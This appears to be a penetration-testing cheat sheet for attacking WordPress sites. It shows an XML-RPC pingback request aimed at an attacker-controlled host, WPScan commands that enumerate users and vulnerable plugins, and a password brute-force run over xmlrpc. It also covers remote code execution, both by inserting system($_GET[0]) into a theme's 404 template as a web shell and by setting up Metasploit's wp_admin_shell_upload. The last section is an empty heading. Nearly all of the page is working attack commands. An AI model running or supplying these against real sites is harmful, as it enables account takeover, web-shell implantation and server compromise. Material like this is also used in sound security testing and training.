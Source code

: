 Pingback.Ping
````
POST /xmlrpc.php HTTP/1.1 
Host: <domain> 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://<domain>/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
````

### WPSCAN

**Enumeration**
````
$ sudo wpscan --url http://<domain> --enumerate --api-token dEOFB<SNIP>
$ sudo wpscan --url http://<domain> --enumerate u --api-token dEOFB<SNIP> (users)
$ sudo wpscan --url http://<domain> --enumerate vt --api-token dEOFB<SNIP> (Vulnerable Themes)
$ sudo wpscan --url http://<domain> --enumerate vp -api-token dEOFB<SNIP> (Vulnerable Plugins)
````

**Login Brute Force**
````
$ sudo wpscan --password-attack xmlrpc -t 20 -U <user/users_list> -P /usr/share/wordlists/rockyou.txt --url http://<domain>
````

**Code Execution**
````
1) Theme's Page
- Appearance -> Theme Editor
- 404 Template (Example)
- Insert system($_GET[0]);
- Save
- $ curl http://<domain>/wp-content/themes/twentynineteen/404.php?0=id
````
````
2) Metasploit
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username <user>
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password <user_password>
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost <Our_IP> 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost <server_IP>  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST <domain>
````
````
3) Vulnerable Plugin/Theme
````
